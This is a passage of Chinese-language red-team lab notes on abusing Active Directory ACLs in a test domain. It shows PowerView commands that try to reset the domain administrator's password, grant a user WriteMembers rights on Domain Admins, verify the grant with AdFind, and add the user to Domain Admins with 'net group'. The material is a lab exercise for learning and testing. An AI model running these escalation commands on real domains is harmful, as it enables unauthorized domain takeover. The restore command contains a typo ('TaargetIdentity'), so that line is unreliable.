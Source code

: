 这时再用 sqlserver 修改 域管理员的密码则失败了

```powershell
PS C:\Users\sqlserver\Desktop> $NewPassword = ConvertTo-SecureString 'Admin12345678' -AsPlainText -Force
PS C:\Users\sqlserver\Desktop> Set-DomainUserPassword -Identity 'administrator' -AccountPassword $NewPassword
警告: [Set-DomainUserPassword] Error setting password for user 'administrator' :
使用“1”个参数调用“SetPassword”时发生异常:“拒绝访问。 (异常来自 HRESULT:0x80070005 (E_ACCESSDENIED))”
```



### member

#### 配置

使用 powerview.ps1 手动对 sqlserver 用户添加对 Domian Admins 组的 WriteMember 权限 

```powershell
Import-Module .\PowerView.ps1
# 对 sqlserver 用户添加对 Domian Admins 组的 WriteMember 权限
Add-DomainObjectAcl -TargetIdentity "domain admins" -PrincipalIdentity sqlserver -Rights WriteMembers -Verbose
```



#### 查询

Adfind

```
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=redteam,DC=red" nTsecurityDescriptor -sddl+++ -sddlfilter ;;;;;redteam\sqlserver
```



#### 复现

配置后，可以用 sqlserver 用户的权限把用户添加到 Domain Admins 组里

```
net group "domain admins" sqlserver /add /domain
```



还原移除权限的命令

```powershell
Import-Module .\PowerView.ps1
# 对 sqlserver 用户移除对 Domian Admins 组的 WriteMember 权限
Remove-DomainObjectAcl -TaargetIdentity "domain admins" -PrincipalIdentity sqlserver -Rights WriteMembers -Verbose
```



### msDS-AllowedToActOnBehalfOfOtherIdentity
